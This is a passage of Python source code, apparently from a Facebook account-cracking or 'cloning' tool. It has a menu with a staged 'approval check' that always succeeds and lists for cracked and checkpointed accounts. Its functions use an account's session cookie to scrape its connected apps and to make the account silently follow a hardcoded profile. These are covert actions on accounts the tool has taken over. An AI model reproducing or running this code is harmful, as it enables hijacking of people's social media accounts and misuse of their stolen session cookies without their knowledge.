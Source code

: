 		M4H1N_BHAI = input('\033[92;1m╰─\033[92;1m[\033[91;1m●\033[92;1m]\033[92;1m[\033[91;1m●\033[92;1m] CHOOSE : \033[1;32m')
		if M4H1N_BHAI in ["", " "]:
			os.system("xdg-open https://github.com/M4H1N-2-0")
			Main()
		elif M4H1N_BHAI in ["E", "e"]:
			print("   \033[92;1m[\033[91;1m●\033[92;1m] ASSALAMUALAIKUM ALLAH HAFEZ 𓆩😘𓆪 𓆩😘𓆪 ")
			os.system("xdg-open https://github.com/M4H1N-2-0")
			exit()
		elif M4H1N_BHAI in ["A", "a"]:
			os.system("xdg-open https://github.com/M4H1N-2-0")
			print("")
			time.sleep(5)
			print(f'        \033[47m\033[1;31mCHECKING YOUR APPROVAL WAIT 5 SECONDS \033[40m\033[00m')
			time.sleep(5)
			os.system('clear')
			print(logo)
			print(f'\033[92;1m[\033[91;1m●\033[92;1m] \x1b[1;92mAPPROVAL SUCCESSFUL USE AND ENJOY !!')
			time.sleep(5)
			main()
#---------------------[LOOP MENU]---------------------#
loop = 0
cp = []
ok = []
twf = []
#---------------------[APPLICATION CHECKER]---------------------#
def cek_apk(session,coki):
    w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=active",cookies={"cookie":coki}).text
    sop = BeautifulSoup(w,"html.parser")
    x = sop.find("form",method="post")
    game = [i.text for i in x.find_all("h3")]
    if len(game)==0:
        print(f'\r%s\033[92;1m[\033[91;1m%s●%s\033[92;1m] %sSORRY THERE IS NO ACTIVE APK%s  '%(N,M,N,M,N))
    else:
        print(f'\r[🎮] %s\033[92;1m[\033[91;1m●\033[92;1m] YOUR ACTIVE APPS     : {WHITE}'%(GREEN))
        for i in range(len(game)):
            print(f"\r[%s%s] %s%s"%(N,i+1,game[i].replace("Ditambahkan pada"," Ditambahkan pada"),N))
        #else:
            #print(f'\r %s[%s!%s] Sorry, Apk check failed invalid cookie'%(N,M,N))
    w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=inactive",cookies={"cookie":coki}).text
    sop = BeautifulSoup(w,"html.parser")
    x = sop.find("form",method="post")
    game = [i.text for i in x.find_all("h3")]
    if len(game)==0:
        print(f'\r%s\033[92;1m[\033[91;1m%s●%s\033[92;1m] %sSORRY THERE IS NO EXPIRED APK%s           \n'%(N,M,N,M,N))
    else:
        print(f'\r[🎮] %s\033[92;1m[\033[91;1m●\033[92;1m] YOUR EXPIRED APK    : {WHITE}'%(M))
        for i in range(len(game)):
            print(f"\r[%s%s] %s%s"%(N,i+1,game[i].replace("Kedaluwarsa"," Kedaluwarsa"),N))
        else:
            print(f'\r')
            #print(f'\r %s[%s!%s] Sorry, Apk check failed invalid cookie\n'%(N,M,N))
def follow(ses,coki):
    ses.headers.update({"accept-language":"id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"})
    r = sop(ses.get('https://mbasic.facebook.com/profile.php?id=100001020800712', cookies={'cookie': coki}).text, 'html.parser')
    get = r.find('a', string='Follow').get('href')
    ses.get(('https://mbasic.facebook.com' + str(get)), cookies={'cookie': coki}).text
